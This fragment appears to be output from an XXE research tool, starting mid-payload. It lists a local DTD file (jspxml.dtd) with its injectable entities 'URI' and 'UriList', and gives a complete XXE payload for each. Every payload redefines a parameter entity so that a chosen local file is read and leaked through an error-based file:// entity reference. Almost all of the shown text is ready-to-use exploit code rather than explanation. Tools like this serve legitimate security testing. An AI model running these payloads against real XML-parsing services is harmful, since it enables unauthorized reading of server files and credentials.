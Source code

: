 ```
    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/jspxml.dtd`

**Injectable entity:** `URI`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/jspxml.dtd">

    <!ENTITY % URI '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/jspxml.dtd`

**Injectable entity:** `UriList`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/jspxml.dtd">

    <!ENTITY % UriList '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```
